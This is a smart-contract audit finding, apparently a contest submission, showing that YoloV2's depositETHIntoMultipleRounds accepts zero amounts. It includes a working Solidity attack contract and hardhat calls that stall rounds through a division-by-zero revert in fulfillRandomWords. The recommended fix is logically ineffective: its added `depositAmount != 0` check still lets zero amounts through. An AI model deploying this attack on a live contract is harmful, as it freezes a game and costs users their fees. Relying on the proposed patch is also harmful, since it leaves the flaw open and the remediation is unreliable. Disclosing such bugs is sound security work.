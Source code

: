 Handsome Vermilion Hamster

high

# The `depositETHIntoMultipleRounds` function does not check all values in the `amounts` array, so it can be used in attacks to stop multiple rounds.

## Summary
Instead of checking all values in the `amounts` array parameter, `depositETHIntoMultipleRounds` only checks `msg.value` and the expected deposit amount.
`_depositETH` function doesn't also check if `depositAmount` is zero.
`fulfillRandomWords` function doesn't check if `currentEntryIndex` is zero.

## Vulnerability Detail

https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L314-L316
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L347-L349
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1417-L1455
```solidity
function depositETHIntoMultipleRounds(uint256[] calldata amounts) external payable nonReentrant whenNotPaused {
        uint256 numberOfRounds = amounts.length;
314:     if (msg.value == 0 || numberOfRounds == 0) {
              revert ZeroDeposits();
316:     }

        uint256 startingRoundId = roundsCount;
        Round storage startingRound = rounds[startingRoundId];
        _validateRoundIsOpen(startingRound);

        _setCutoffTimeIfNotSet(startingRound);

        uint256 expectedValue;
        uint256[] memory entriesCounts = new uint256[](numberOfRounds);

        for (uint256 i; i < numberOfRounds; ++i) {
            uint256 roundId = _unsafeAdd(startingRoundId, i);
            Round storage round = rounds[roundId];
            uint256 roundValuePerEntry = round.valuePerEntry;
            if (roundValuePerEntry == 0) {
                (, , roundValuePerEntry) = _writeDataToRound({roundId: roundId, roundValue: 0});
            }

            _incrementUserDepositCount(roundId, round);

            uint256 depositAmount = amounts[i];
338:        if (depositAmount % roundValuePerEntry != 0) {
                revert InvalidValue();
            }
            uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
            expectedValue += depositAmount;

            entriesCounts[i] = entriesCount;
        }

        if (expectedValue != msg.value) {
            revert InvalidValue();
        }
        ...
```

 `depositETHIntoMultipleRounds`  does not check all values in `amounts` array parameter, so an attack is possible using this vulnerability. 
As we can see above code snippet, L314 checks only if `msg.value` is not zero, and L338 checks if `depositAmount % roundValuePerEntry` is not zero.
That is, the attacker sets only one entry to the minimum value 'valuePerEntry' and sets the other entries to 0.

## Proof of Concept
Attacker can set `amounts` to [valuePerEntry, 0, 0, ..., 0] and call  `depositETHIntoMultipleRounds`  `MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND - 1` times.
`MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND - 1` = 99
Attacker may set `amounts`'s length to arbitrary value by adding zero continuously. 

```sh
1st call: [valuePerEntry, 0, 0, ... 0]
2nd call: [valuePerEntry, 0, 0, ... 0]
...
99th call: [valuePerEntry, 0, 0, ... 0]
```
so attacker sets `msg.value` to `valuePerEntry * 99`.

deposit amounts per round would be like this.
```sh
round[roundsCount]: valuePerEntry * 99 // current round
round[roundsCount + 1]: 0
round[roundsCount + 2]: 0
...
round[roundsCount + m]: 0 // here m is zero's count - 1 in `amounts`
``` 

deposit counts per round for attacker would be like this.
```sh
round[roundsCount][attacker address] = 99
round[roundsCount + 1][attacker address] = 99
...
round[roundsCount + m][attacker address] = 99
```

Here is my attack contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import {YoloV2} from "./YoloV2.sol";

contract Attacker {

    YoloV2 private yolo;
    constructor(YoloV2 yolo_) payable {
        yolo = yolo_;
    }

    function attack(bool _initialOrStop) public {
        uint256 ATTACK_ROUNDS = 10000;
        uint256 DEPOST_COUNTS = 99; // MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND - 1
        uint96 valuePerEntry = yolo.valuePerEntry();
        uint256[] memory amounts = new uint256[](ATTACK_ROUNDS);
        amounts[0] = valuePerEntry;
        for(uint256 i = 1; i < ATTACK_ROUNDS; ++i) {
            amounts[i] = 0;
        }

        if (_initialOrStop)
            for (uint256 i = 0; i < DEPOST_COUNTS; ++i) {
                yolo.depositETHIntoMultipleRounds{value: valuePerEntry}(amounts);
            }
        else
            yolo.depositETHIntoMultipleRounds{value: valuePerEntry}(amounts);
    }

}
```
After the deployment of `Attacker` contract, tested in hardhat like this.

```javascript
const { ethers, upgrades } = require('hardhat');
let [attacker1, attacker2] = await ethers.getSigners();
let attacker = await (await ethers.getContractFactory('Attacker')).deploy(YOLOV2_ADDRESS);

await attacker.connect(attacker1).attack(true, {value: ethers.utils.parseEther("2")});
```
Attacker can take additional action to stop the YOLOV2 like this. 
```javascript
await attacker.connect(attacker2).attack(false); 
```

## Impact
There are 2 impacts due to above attack.
One is that an user which participates in upcoming rounds  will be the `winner`, but can't earn. 
Only one user can participate in upcoming rounds, because `roundDepositCount` should not be bigger than `MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND`.
If any user deposits in upcoming rounds, then he would be the winner.
Because deposit amount of attacker is zero, so he can't get any other deposit but should pay round fee, so he will lose by fee even though he is the winner.

Another is for attacker to stop upcoming rounds by calling `depositETHIntoMultipleRounds` once more.
When attacker calls `depositETHIntoMultipleRounds` function with ` [valuePerEntry, 0, 0, ... 0]` using another address, then all deposits for upcoming rounds will reach `MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND`  with zero deposit amounts for all rounds.
So `_shouldDrawWinner` will be true, and run `_drawWinner`.
`VRF_COORDINATOR` will call `fulfillRandomWords` after randomness request,  and fail and be reverted because `currentEntryIndex` is zero, `randomWord % currentEntryIndex` is division by zero. 

```solidity
function fulfillRandomWords(uint256 requestId, uint256[] memory randomWords) internal override {
        if (randomnessRequests[requestId].exists) {
            uint256 roundId = randomnessRequests[requestId].roundId;
            Round storage round = rounds[roundId];

            if (round.status == RoundStatus.Drawing) {
                round.status = RoundStatus.Drawn;
                uint256 randomWord = randomWords[0];
                randomnessRequests[requestId].randomWord = randomWord;

                uint256 count = round.deposits.length;
                uint256[] memory currentEntryIndexArray = new uint256[](count);
                for (uint256 i; i < count; ++i) {
                    currentEntryIndexArray[i] = uint256(round.deposits[i].currentEntryIndex);
                }

1286:           uint256 currentEntryIndex = currentEntryIndexArray[_unsafeSubtract(count, 1)];
1287:           uint256 winningEntry = _unsafeAdd(randomWord % currentEntryIndex, 1);
                round.winner = round.deposits[currentEntryIndexArray.findUpperBound(winningEntry)].depositor;
                round.protocolFeeOwed = (round.valuePerEntry * currentEntryIndex * round.protocolFeeBp) / 10_000;

                emit RoundStatusUpdated(roundId, RoundStatus.Drawn);

1293:           _startRound({_roundsCount: roundId});
            }
        }
    }
```
In L1286` currentEntryIndex` will be zero, L1287 would fail and reverted by division error, so can't run `_startRound`  at L1293.
So the game will be stopped in that round.

## Code Snippet
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L314-L316
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L347-L349
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1417-L1455

## Tool used

Manual Review

## Recommendation

L338 should be modified to check the condition `depositAmount != 0`
```solidity
-    if (depositAmount % roundValuePerEntry != 0) {
+    if (depositAmount != 0 && depositAmount % roundValuePerEntry != 0) {
        revert InvalidValue();
    }
```